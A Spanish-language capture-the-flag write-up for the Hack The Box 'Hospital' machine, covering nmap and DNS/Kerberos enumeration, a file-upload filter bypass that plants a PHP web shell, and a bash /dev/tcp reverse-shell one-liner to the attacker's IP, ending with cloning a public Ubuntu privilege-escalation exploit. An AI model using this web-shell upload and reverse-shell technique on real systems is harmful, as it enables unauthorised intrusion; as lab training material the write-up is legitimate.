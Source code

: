 #windows #fuzzing #medium 
### Ping
```python
ping -c 1 10.10.11.241
PING 10.10.11.241 (10.10.11.241) 56(84) bytes of data.
64 bytes from 10.10.11.241: icmp_seq=1 ttl=127 time=77.1 ms

--- 10.10.11.241 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 77.090/77.090/77.090/0.000 ms
```

### TTL 127= Windows 

### nmap
```python
PORT     STATE SERVICE           VERSION
22/tcp   open  ssh               OpenSSH 9.0p1 Ubuntu 1ubuntu8.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 e1:4b:4b:3a:6d:18:66:69:39:f7:aa:74:b3:16:0a:aa (ECDSA)
|_  256 96:c1:dc:d8:97:20:95:e7:01:5f:20:a2:43:61:cb:ca (ED25519)
53/tcp   open  domain            Simple DNS Plus
88/tcp   open  kerberos-sec      Microsoft Windows Kerberos (server time: 2024-04-12 22:03:50Z)
135/tcp  open  msrpc             Microsoft Windows RPC
139/tcp  open  netbios-ssn       Microsoft Windows netbios-ssn
389/tcp  open  ldap              Microsoft Windows Active Directory LDAP (Domain: hospital.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC
| Subject Alternative Name: DNS:DC, DNS:DC.hospital.htb
| Not valid before: 2023-09-06T10:49:03
|_Not valid after:  2028-09-06T10:49:03
443/tcp  open  ssl/http          Apache httpd 2.4.56 ((Win64) OpenSSL/1.1.1t PHP/8.0.28)
|_http-server-header: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.0.28
| tls-alpn: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
|_http-title: Hospital Webmail :: Welcome to Hospital Webmail
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ldapssl?
| ssl-cert: Subject: commonName=DC
| Subject Alternative Name: DNS:DC, DNS:DC.hospital.htb
| Not valid before: 2023-09-06T10:49:03
|_Not valid after:  2028-09-06T10:49:03
1801/tcp open  msmq?
2103/tcp open  msrpc             Microsoft Windows RPC
2105/tcp open  msrpc             Microsoft Windows RPC
2107/tcp open  msrpc             Microsoft Windows RPC
2179/tcp open  vmrdp?
3268/tcp open  ldap              Microsoft Windows Active Directory LDAP (Domain: hospital.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC
| Subject Alternative Name: DNS:DC, DNS:DC.hospital.htb
| Not valid before: 2023-09-06T10:49:03
|_Not valid after:  2028-09-06T10:49:03
3269/tcp open  globalcatLDAPssl?
| ssl-cert: Subject: commonName=DC
| Subject Alternative Name: DNS:DC, DNS:DC.hospital.htb
| Not valid before: 2023-09-06T10:49:03
|_Not valid after:  2028-09-06T10:49:03
3389/tcp open  ms-wbt-server     Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: HOSPITAL
|   NetBIOS_Domain_Name: HOSPITAL
|   NetBIOS_Computer_Name: DC
|   DNS_Domain_Name: hospital.htb
|   DNS_Computer_Name: DC.hospital.htb
|   DNS_Tree_Name: hospital.htb
|   Product_Version: 10.0.17763
|_  System_Time: 2024-04-12T22:04:46+00:00
| ssl-cert: Subject: commonName=DC.hospital.htb
| Not valid before: 2024-04-11T16:53:57
|_Not valid after:  2024-10-11T16:53:57
5985/tcp open  http              Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
6404/tcp open  msrpc             Microsoft Windows RPC
6406/tcp open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
6407/tcp open  msrpc             Microsoft Windows RPC
6410/tcp open  msrpc             Microsoft Windows RPC
6617/tcp open  msrpc             Microsoft Windows RPC
6631/tcp open  msrpc             Microsoft Windows RPC
6645/tcp open  msrpc             Microsoft Windows RPC
8080/tcp open  http              Apache httpd 2.4.55 ((Ubuntu))
| http-title: Login
|_Requested resource was login.php
|_http-server-header: Apache/2.4.55 (Ubuntu)
|_http-open-proxy: Proxy might be redirecting requests
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
9389/tcp open  mc-nmf            .NET Message Framing
Service Info: Host: DC; OSs: Linux, Windows; CPE: cpe:/o:linux:linux_kernel, cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 6h58m48s, deviation: 0s, median: 6h58m47s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2024-04-12T22:04:47
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 129.81 seconds
```

### Enumeración del puerto 53 (Domain)
`dig`
![[Pasted image 20240412115907.png]]

`dnsrecon -d hospital.htb -a -n 10.10.11.241`
![[Pasted image 20240412115733.png]]

### Enumeración del puerto 88 (Kerberos)
por el momento solo tenemos un usuario valido. administrator
![[Pasted image 20240412122215.png]]

### impacket-GetNPUsers
intentamos obtener un `TGT` pero el usuario no tiene `UF_DONT_REQUIRE_PREAUTH` por lo cual no podremos obtener un `TGT`
![[Pasted image 20240412122450.png]]

### Enumeración del puerto 8080 (http)
después de intentar un usuario inexistente nos envía a una pagina para crear un usuario 
![[Pasted image 20240412124323.png]]


![[Pasted image 20240412124252.png]]

`iniciamos session`
encontramos una web que nos permite subir archivos en este caso imagenes
![[Pasted image 20240412231100.png]]

usaremos el repositorio [github](https://github.com/flozz/p0wny-shell?source=post_page-----ce86940a895f--------------------------------) para cargar una shell de navegador. para ello debemos cambiar el nombre del archivo de .php a png luego vamos a interceptar esta peticion con burpsuite 
![[Pasted image 20240412232907.png]]

cambiamos la extensión del archivo shell.png a shell.phar y modificamos el `content-Tyoe` para que sea un application/x-php
![[Pasted image 20240412233144.png]]

ok. parece que ha aceptado el archivo. ahora solo debemos buscar el directorio donde se esta guardando. para ello haremos fuzzing
![[Pasted image 20240412232205.png]]
los archivos que subimos se guardan en un directorio llamado uploads. asi que apuntaremos a ese archivo en la url `10.10.11.241:8080/uploads/shell.phar`

de esta manera obtenemos una shell que nos permite interactuar de manera mas facil con el sistema. y aprovechando esto usaremos el comando `bash -c "bash -i >& /dev/tcp/10.10.14.137/9001 0>&1"` para obtener una reverse shell mas estable
![[Pasted image 20240412232653.png]]

### Reverse shell
obtenemos conexión y somos el usuario www-data
![[Pasted image 20240412233811.png]]

obtenemos la versión del sistema el cual es `ubuntu 23.04` investigando en internet conseguimos un exploit para la versión 23.04 que nos permite escalar privilegios usaremos este repo [github](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629.git)  
![[Pasted image 20240412234226.png]]

hacemos un git clone para descargar el repo y tenemos el exploit
![[Pasted image 20240412234845.png]]

